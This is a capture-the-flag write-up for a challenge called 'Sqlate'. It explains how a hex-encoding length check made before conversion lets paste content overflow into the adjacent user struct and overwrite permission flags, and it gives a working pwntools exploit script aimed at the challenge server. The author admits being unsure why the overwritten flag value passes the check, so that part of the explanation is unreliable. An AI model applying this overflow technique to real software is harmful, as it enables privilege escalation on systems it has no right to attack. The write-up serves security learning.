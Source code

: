 ```yaml
---
title: Sqlate
author: Sir_X
toc: true
pubDate: 2025-01-05
share: true
ogImage: true
---
```


# Sqlate
![](../../assets/dom-images/logo.jpg)

## Description
World‘s most secure paste app.

## Solution
We get the src code for the app. 
The goal is to trigger the function `action_sys` which will print the flag. 
```
void action_sys() {
    system("/usr/bin/cat flag");
}
```
Checking the programs menu we can see that there is a permission check before allowing the call to this function.
```
case '7': {
    if (!check_permissions(permission_root)) continue;

    action_sys();
    continue;
}
```
The function `check_permissions` checks the current user flag against the perms provided in the  call.  (Added some debug printf's, to see what the current perms are)
```
bool check_permissions(const int perms) {
    printf("Current Perms: %ld\n", current_user.flags);
    printf("Perms: %d\n", perms);
    printf("Current Userid: %d\n", current_user.userId);
    if ((current_user.flags & perms) != perms) {
        printf("You don't have permissions to perform this action!\n");
        if (current_user.userId == -1) {
            printf("You might need to login to unlock this.\n");
        }
        return false;
    }
    return true;
}
```
The intended way of the program is to login as admin with the randomly generated admin password to get those root privs. But since we have no way of guessing or dumping this admin password we need to find a different way to modify the privs. This leaves us with 4 functions. 
* action_create --> Creates an entry in the sqlite db
* action_update --> Updates an entry in the sqlite db
* action_info --> Shows a specific entry
* action_list --> Lists all entries

The create action just adds a new entry to the sqlite db. Even if we could somehow get an sqli it woudn't really help us much, since only the entries are managed there and not the users or permissions. 

The update code on the other hand looks interesting. Besides selecting which field (Language/Content) of the entry we want to edit we can also decide in what encoding the content should be stored.
```
printf(
    "Which modifier?\n"
    "1) None\n"
    "2) Hex\n"
    "3) Base64\n"
    "\n"
    ">"
);
```
For every encoding there is a different length check to prevent buffer overflows. Small issue with that, the length check for the hex encoding has a bug. 
```
if (c == '3') {
    char* temp = base64_encode(line_buffer);
    if (strlen(temp) > 255) err(EXIT_FAILURE, "Attempted to overflow!");
    strcpy(line_buffer, temp);
    free(temp);
} else if (c == '2') {
    if (strlen(line_buffer) > 192) err(EXIT_FAILURE, "Attempted to overflow!");
}
```
The line_buffer length is checked before its converted to HEX, therefore we can write a total of 192*2=384 bytes. But our buffer for the content only has a size of 256 bytes. 
```
struct paste {
    int rowId;
    char title[256];
    char language[256];
    char content[256];
};
```
Luckily for us the user struct of the current_user is created just below the paste struct ion the buffer. Therefore if we overwrite the content in the paste struct we can write into the current_user, which also stores the users permission flags. 
```
struct user {
    int userId;
    uint64_t flags;
    char username[256];
    char password[256];
};
```
Therefore we can control the perms the user has.
Here is the part where im not entirely sure why my exploit works. Since I did overwrite the perms flag with the default paste content terminator A0. Which results in the int perms of 16688 where the root perms should be int 256. But somehow the check_permissions still approves of my rights and gives me the flag.

![Memory Overwrite](../../assets/dom-images/image.png) 
exploit.py
```
from pwn import *

binary = './vuln'
context.binary = binary
# Local debugging
#p = gdb.debug(binary, '''
#    continue
#''')
p = remote('sqlate.chal.irisc.tf', 10000)  # Connect to the remote CTF instance

def send_menu_choice(choice):
    p.recvuntil(b'> ')
    p.sendline(str(choice).encode())

def create_paste(title, language, content):
    send_menu_choice(1)  
    p.recvuntil(b"Enter Title: ")
    p.sendline(title)
    p.recvuntil(b"Enter Language: ")
    p.sendline(language)
    p.recvuntil(b"Enter Content: ")
    p.sendline(content)

def update_paste(title, content, modifier):
    send_menu_choice(2)  
    p.recvuntil(b">")   
    p.sendline(b"2")   
    p.recvuntil(b">")   
    p.sendline(str(modifier).encode()) 
    p.recvuntil(b"Enter content: ")
    p.sendline(content)  
    p.recvuntil(b"Enter Title: ")
    p.sendline(title)  

def list_all():
    send_menu_choice(4)


raw_payload_D = b"D" * 146  

log.info("Creating initial paste...")
create_paste(b"4", b"4", b"D")

log.info("Updating paste with malicious payload...")
update_paste(b"4", raw_payload_D, 2)
list_all()

send_menu_choice(7)
p.interactive()
```

---
**Dombusters**: _Writeup written by [Sir_X](https://x.com/Sir_X72563?t=J2E1FMrckYMcUU5MNmOLpw&s=09)_
